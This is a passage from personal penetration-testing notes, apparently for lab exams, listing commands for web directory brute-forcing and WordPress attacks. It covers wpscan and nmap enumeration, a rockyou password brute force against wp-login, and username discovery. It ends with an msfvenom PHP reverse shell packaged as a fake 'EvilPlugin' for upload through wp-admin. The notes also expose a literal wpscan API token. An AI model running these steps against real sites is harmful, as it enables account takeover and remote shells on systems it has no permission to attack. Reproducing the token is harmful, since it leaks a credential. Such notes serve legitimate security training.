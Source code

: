         - OH NO 200's!!! (Filter out the size of each 200 response)
            - First access a page that gives a 200 ("/fuck") -> send to burp
            - send capture to repeater, and send again, read the size in the bottom right hand corner. Use that for the filter size
            > feroxbuster --filter-size 1924 --depth 2 --wordlist /usr/share/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt -t 200 -u http://192.168.1.106:3000 -o feroxbust_small_3000.txt
    - ffuf
        - OH NO 200's!!! (Filter out the size of each 200 response)
            > ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.1.106:3000/FUZZ -fs 1924 -o ffuf_small_3000 -of md




    - webgrabber (gather what web page looks like)
        - run gobuster first with an output file, then feed output file into the command below
        > webgrabber http://10.10.10.82 gobust_dh_medium_80.txt
    - dirbuster
        > dirbuster
        > dirbuster -l /usr/share/wordlists/dirb/common.txt -e php,txt,cgi,html,jsp
        > dirbuster -l /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt -e php,txt,cgi,html,jsp
            - set speed to "faster" to get more threads
    - word press
        - read this site --> https://www.armourinfosec.com/wordpress-enumeration/
        - Make sure to check the absolute path in wp site, make sure you have the hosts name in /etc/hosts. Or the path is correct.
        - Try to access /wp-login.php for site login
        - Using "wpscan"
            - regular scan
                > wpscan --url sandbox.local --enumerate ap,at,cb,dbe
            - aggressive scan with api token
                > wpscan --url http://10.10.10.88/webservices/wp --no-update -e ap --plugins-detection aggressive --plugins-version-detection aggressive --api-token CnKYeaIBqnq8a87OUF3Wd8rbkqpOvjWttJsMry2ZatI| tee wpscan2.out
                > wpscan --url http://10.11.1.73:2869 --no-update -e vp,vt,tt,cb,dbe,u,m --plugins-detection aggressive --plugins-version-detection aggressive -f cli-no-color 2>&1 | tee "/home/dave/SystemsHacked/10.11.1.73/results/10.11.1.73/scans/tcp_2869_http_wpscan.txt" --api-token CnKYeaIBqnq8a87OUF3Wd8rbkqpOvjWttJsMry2ZatI
            - wordpress login brute force
                > wpscan --url http://10.10.10.37 --usernames 'admin' --passwords /usr/share/wordlists/rockyou.txt
        - Using "nmap"
            > nmap 10.10.10.37 --script=/usr/share/nmap/scripts/http-wordpress-brute.nse,http-wordpress-enum.nse,http-wordpress-users.nse
        - Username enumeration
            - Check the admin of the system by going to the site with "http://10.10.10.37/?author=1"
            - You can also go to the login page to enter a username to see if "you entered for the username <username> is incorrect" indicating that is a valid user on the system
        - Core version
        - wordpress plugin upload
            - wordpress plugin upload (MUST have admin login for the wp-admin portal for this to work)
                > msfvenom -p php/reverse_php LHOST=192.168.49.89 LPORT=80 -f raw > shell.php
                - Create plugin file, contents of "evilplugin.php"
                    <?php
                    /**
                    * Plugin Name: EvilPlugin
                    * Version: 6.6.6
                    * Author: Mr Evil
                    * Author URI: http://evil.plugin.com
                    * License: GPL2
                    */
                    ?>
                - zip package together 
                    > zip evilplugin.zip shell.php evilplugin.php
                - Go to http://192.168.89.55/shenzi/wp-admin/plugin-install.php?tab=upload 